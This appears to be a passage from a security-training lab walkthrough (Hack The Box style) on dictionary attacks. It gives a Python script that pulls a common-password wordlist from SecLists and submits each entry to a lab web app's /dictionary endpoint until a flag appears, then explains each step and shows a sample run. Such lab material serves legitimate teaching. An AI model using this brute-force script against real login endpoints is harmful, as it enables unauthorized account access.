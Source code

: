 Copy and paste this Python script below as `dictionary-solver.py` onto your machine. You only need to modify the IP and port variables to match your target system information.

```python
import requests

ip = "127.0.0.1"  # Change this to your instance IP address
port = 1234       # Change this to your instance port number

# Download a list of common passwords from the web and split it into lines
passwords = requests.get("https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/500-worst-passwords.txt").text.splitlines()

# Try each password from the list
for password in passwords:
    print(f"Attempted password: {password}")

    # Send a POST request to the server with the password
    response = requests.post(f"http://{ip}:{port}/dictionary", data={'password': password})

    # Check if the server responds with success and contains the 'flag'
    if response.ok and 'flag' in response.json():
        print(f"Correct password found: {password}")
        print(f"Flag: {response.json()['flag']}")
        break
```

The Python script orchestrates the dictionary attack. It performs the following steps:

1. `Downloads the Wordlist`: First, the script fetches a wordlist of 500 commonly used (and therefore weak) passwords from SecLists using the `requests` library.
2. `Iterates and Submits Passwords`: It then iterates through each password in the downloaded wordlist. For each password, it sends a POST request to the Flask application's `/dictionary` endpoint, including the password in the request's form data.
3. `Analyzes Responses`: The script checks the response status code after each request. If it's 200 (OK), it examines the response content further. If the response contains the "flag" key, it signifies a successful login. The script then prints the discovered password and the captured flag.
4. `Continues or Terminates`: If the response doesn't indicate success, the script proceeds to the next password in the wordlist. This process continues until the correct password is found or the entire wordlist is exhausted.

```shell-session
smoothment@htb[/htb]$ python3 dictionary-solver.py

...
Attempted password: turtle
Attempted password: tiffany
Attempted password: golf
Attempted password: bear
Attempted password: tiger
Correct password found: ...
Flag: HTB{...}
```

